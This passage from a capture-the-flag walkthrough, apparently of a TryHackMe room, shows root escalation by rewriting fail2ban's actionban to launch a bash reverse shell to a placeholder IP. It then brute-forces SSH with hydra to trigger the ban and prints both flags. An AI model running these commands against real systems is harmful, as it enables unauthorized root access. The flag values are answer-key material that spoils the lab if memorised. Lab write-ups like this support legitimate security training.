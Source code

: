 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020250609164528.png)

On here, we need to modify the `actionban` to match a reverse shell, we can do:

```
actionban = bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"
```

Once we modify the file, restart the service with sudo:

```
sudo /bin/systemctl restart fail2ban
```

We now need to set up a listener and trigger `fail2ban` since it is an anti-bruteforce protection service, we need to bruteforce the login, let's use hydra to automate the process:

```
hydra -l random -P /usr/share/wordlists/rockyou.txt ssh://10.10.64.184 -t 40
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250609164917.png)

There we go, as seen we receive the reverse shell as root, let's read both flags and end the CTF:

```
root@biteme:/# cat /home/jason/user.txt
THM{6fbf1fb7241dac060cd3abba70c33070}

root@biteme:/# cat /root/root.txt
THM{0e355b5c907ef7741f40f4a41cc6678d}
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250609165033.png)



